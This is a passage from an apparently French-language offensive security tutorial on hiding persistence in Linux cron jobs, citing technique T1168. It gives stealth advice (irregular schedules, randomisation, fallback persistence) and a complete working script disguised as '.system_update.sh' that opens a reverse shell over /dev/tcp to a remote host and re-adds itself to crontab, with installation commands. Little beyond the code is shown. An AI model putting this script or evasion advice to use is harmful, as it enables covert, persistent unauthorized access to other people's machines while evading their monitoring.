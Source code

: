## Conseils de Sécurité Opérationnelle

### Bonnes Pratiques
1. **Tester localement** : Toujours tester les cron jobs sur un système de test
2. **Timing intelligent** : Éviter les heures de forte activité système
3. **Randomisation** : Varier les intervalles d'exécution
4. **Monitoring** : Surveiller les logs pour détecter les erreurs
5. **Fallback** : Prévoir plusieurs méthodes de persistance

### Intervalles Discrets
```bash
# Éviter les intervalles trop réguliers
7,23,41 * * * * /tmp/backdoor.sh  # Minutes irrégulières
0 2,8,14,20 * * * /tmp/malware.sh  # Heures variées
```

## Exemples Complets

### Script de Persistance Avancée
```bash
#!/bin/bash
# /tmp/.system_update.sh

# Vérifications de sécurité
if [ ! -f "/tmp/.execute_flag" ]; then exit 0; fi
if [ "$(ps aux | grep -c sshd)" -lt 2 ]; then exit 0; fi

# Payload principal
if nc -z 192.168.1.100 4444 2>/dev/null; then
    bash -i >& /dev/tcp/192.168.1.100/4444 0>&1
fi

# Auto-maintenance
if ! crontab -l 2>/dev/null | grep -q "system_update"; then
    (crontab -l 2>/dev/null; echo "*/13 * * * * /tmp/.system_update.sh > /dev/null 2>&1") | crontab -
fi
```

### Crontab d'Installation
```bash
# Installation initiale (à exécuter une seule fois)
(crontab -l 2>/dev/null; echo "*/13 * * * * /tmp/.system_update.sh > /dev/null 2>&1") | crontab -
touch /tmp/.execute_flag
chmod +x /tmp/.system_update.sh
```

## Cas Pratique - T1168: Local Job Scheduling
